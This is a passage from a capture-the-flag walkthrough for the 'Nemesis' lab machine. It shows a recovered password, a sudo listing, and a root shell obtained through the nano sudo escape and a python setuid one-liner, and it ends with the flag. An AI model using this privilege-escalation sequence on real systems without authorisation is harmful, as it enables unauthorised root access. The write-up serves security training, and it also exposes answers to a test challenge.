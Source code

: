 Once the **decrypt.py** script has been executed, the keys used and the password were found.

```console
root@kali:~$ python decrypt.py
[11, 13] ENCRYPTIONISFUNPASSWORD
```

By listing the sudo permissions it is possible to run nano to open/create a file as root user.

```console
carlos@nemesis:~$ sudo -l
[sudo] password for carlos: 
Matching Defaults entries for carlos on nemesis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User carlos may run the following commands on nemesis:
    (root) /bin/nano /opt/priv
```

### Sudo Privileges

Type the following command and follow the instructions below to gain root access. I was guided by [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo).

```console
carlos@nemesis:~$ sudo /bin/nano /opt/priv
```

In the editor press:

**ctrl R ctrl X**

**reset; sh 1>&0 2>&0**

```console
# whoami
root
# python -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
root@nemesis:/home/carlos# cd
root@nemesis:~# ls
root.txt
root@nemesis:~# cat root.txt 

             ,----------------,              ,---------,
        ,-----------------------,          ,"        ,"|
      ,"                      ,"|        ,"        ,"  |
     +-----------------------+  |      ,"        ,"    |
     |  .-----------------.  |  |     +---------+      |
     |  |                 |  |  |     | -==----'|      |
     |  |  I LOVE Linux!  |  |  |     |         |      |
     |  |                 |  |  |/----|`---=    |      |
     |  | root@nemesis:~# |  |  |   ,/|==== ooo |      ;
     |  |                 |  |  |  // |(((( [33]|    ,"
     |  `-----------------'  |," .;'| |((((     |  ,"
     +-----------------------+  ;;  | |         |,"    
        /_)______________(_/  //'   | +---------+
   ___________________________/___  `,
  /  oooooooooooooooo  .o.  oooo /,   \,"-----------
 / ==ooooooooooooooo==.o.  ooo= //   ,`\--{)B     ,"
/_==__==========__==_ooo__ooo=_/'   /___________,"
`-----------------------------'

FLAG{CTFs_ARE_AW3S0M3}

Congratulations for getting root on Nemesis! We hope you enjoyed this CTF!

Share this Flag on Twitter (@infosecarticles). Cheers!

```